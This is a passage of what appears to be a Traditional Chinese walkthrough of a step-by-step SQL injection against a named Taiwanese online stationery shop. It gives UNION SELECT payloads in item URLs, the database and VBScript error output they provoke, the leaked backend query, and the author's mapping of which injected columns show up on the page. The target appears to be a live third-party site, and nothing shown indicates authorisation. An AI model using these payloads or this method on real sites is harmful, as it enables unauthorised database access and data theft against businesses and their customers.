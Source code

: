 11. `'UNION(SELECT(1),(1),(1),(1),(1),(1),(1),(1),(1),(1),(1),(1))--`

[Microsoft][ODBC SQL Server Driver][SQL Server]將 nvarchar 值 '手工裝飾素材' 轉換成資料類型 int 時，轉換失敗。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')=''UNION(SELECT(1),(1),(1),(1),(1),(1),(1),(1),(1),(1),(1),(1))--' and I.online=1 and I.State in ('1','2')
```

12. `https://xl-stationer.com.tw/item/'UNION(SELECT'hello1',(1),'hello3',(1),'hello5',(1),(1),(1),(1),(1),(1),(1))--`

[Microsoft][ODBC SQL Server Driver][SQL Server]將 nvarchar 值 '手工藝品' 轉換成資料類型 int 時，轉換失敗。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')=''UNION(SELECT'hello1',(1),'hello3',(1),'hello5',(1),(1),(1),(1),(1),(1),(1))--' and I.online=1 and I.State in ('1','2')
```

13. `https://xl-stationer.com.tw/item/'UNION(SELECT'hello1',(1),'hello3',(1),'hello5',(1),'hello7',(1),'hello9',(1),(1),(1))--`

```html
<font face="Arial" size="2"> <p>Microsoft VBScript 執行階段錯誤</p></font>
<font face="Arial" size="2">錯誤 '800a0009'</font>
<p>
  <font face="Arial" size="2">陣列索引超出範圍: '[number: 0]'</font>
</p>

<p>
  <font face="Arial" size="2">/Details.asp</font
  ><font face="Arial" size="2">, 行49</font>
</p>
```

看來應該是第 9 個欄位的型別比較特別(?)但前面用 `WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')=''` 竟然有查到資料，那我們先改成一個查不到資料的試試看

14. `123'UNION(SELECT'hello1',(1),'hello3',(1),'hello5',(1),'hello7',(1),'hello9',(1),(1),(1))--`

看到一個空白的商品頁，稍微調整一下注入的數字跟字串

15. `123'UNION(SELECT'hello1',(287),'hello3',(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))--`

透過 F12 > Network > Doc 搜尋我們的字串

- 2 => `onclick="window.location.href='/item/文具(287)'"`
- 3,5,7 => `<meta name="keywords" content="hello3 / hello5 / hello7 /..."/>`
- 11 => `<li>訂購金額需滿<span style="color:red;">1187</span>元才可下單。。</li>`
- 12 => 訂購數量需為12的倍數。
